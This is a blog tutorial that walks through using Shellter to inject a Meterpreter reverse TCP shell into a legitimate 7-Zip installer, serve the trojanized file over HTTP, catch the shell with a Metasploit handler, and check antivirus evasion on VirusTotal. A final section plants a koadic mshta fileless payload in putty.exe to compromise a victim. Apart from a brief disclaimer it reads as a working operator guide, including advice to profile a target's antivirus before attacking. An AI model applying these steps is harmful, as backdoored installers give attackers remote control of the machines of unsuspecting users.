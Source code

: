 ```yaml
---
title: "Inject malicious code into PE using Shellter"
date: "2020-04-11"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hey everyone. 

This is for research and education purpose only. If you do something bad, do with your own risk.

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Shellter Website: [https://www.shellterproject.com/](https://www.shellterproject.com/)

We gonna use this tool to inject our meterpreter reverse shell into a clean PE and we will start listening for the shell and execute the malware at the client side.

## Installation

Since Shellter is designed to be run on Windows operating systems, we will install wine

```
apt update
apt install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 && apt install wine
```

## Download our clean PE file

In my case, I'm using 7zip installer.

```
wget https://www.7-zip.org/a/7z1900.exe
```

## Start shellter
```
shellter
```

![//pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic1.PNG)

## Select Mode and PE path

Shellter can run in either Auto or Manual mode. So, in our case here, we gonna run using Auto mode by selecting `A`. You may want use manual mode for advance option.

For PE target, type the path of your PE location and ENTER.

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic2.PNG)


## Enable stealth mode

Let's wait for a second..

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic3.PNG)

Shellter will then ask us if we want Stealth Mode which it will restore the PE execution flow after our payload has been executed. Choose 'Y' for yes. Then ENTER.

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic4.PNG)

## Choose payload 

It will then ask us to choose between using those displayed payload or our own custom payload. 

Type 'L' for listed payload and select index '1' for Meterpreter reverse TCP payload.

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic5.PNG)

## Set your IP and Port for the payload

```
SET LHOST: 192.168.83.129
SET LPORT: 4444
```

Shellter then will do his job for us.

## PE Injection done

Shellter will tell us that our injection is verified

![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic6.PNG)

## Transfering file

Transfer your malicious PE file to our Windows client. In my case, I'm using Python HTTP server.
```
python -m SimpleHTTPServer 8080
```

Go to our Windows client, navigate to our Kali Linux IP with port 8080 in web browser. Then, download the malicious PE file.

## Set up meterpreter listener

Setup our meterpreter listener to catch our reverse shell after execute the PE file

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.83.129
lhost => 192.168.83.129
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.83.129:4444
```

## Execute and pwned

Soon we download the PE...

 ![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic7.PNG)
 
Execute the malicious PE and take a look at our multi handler listener at our Kali Machine.

![//pic8](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic8.PNG)

As you can see above, the binary act normally and our payload is executed. Hooray.

![//pic9](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic9.PNG)

## Scan with VirusTotal

Scanning through VirusTotal results us 25/70 detection.

![//pic10](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic10.PNG)

As you can see, there is a lot of AV that doesnt detect this malware too.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic11.PNG)

So, make sure to gather information about our target client's AV first before attempt to attack.

## Extra: Inject fileless attack using WinExec

We can also inject fileless attack command line using WinExec payload.
But during the prompt of Payloads, we must choose (type) number '7' for WinExec stager.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic12.PNG)
While in your Kali machine, open koadic and run mshta payload. 

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic13.PNG)
Copy the fileless attack command and paste into Shellter with ``cmd /c`` infront of the command to tell windows start cmd with the command we specifed. In our case, we want to run mshta payload. 

If you guys want to execute calculator app. You may want to use ``cmd /c calc.exe`` to execute calc.exe.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic14.PNG)
After press 'enter', our payload now should be verified. Now, deliver the malicious app into victim machine.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic15.PNG)
Once user execute our malicious putty.exe, their machine will get compromise.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic16.gif)
We're in their machine now. Let's run some cmd command using `exec_cmd` module in koadic.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic17.PNG)

---

 **Thanks for reading**

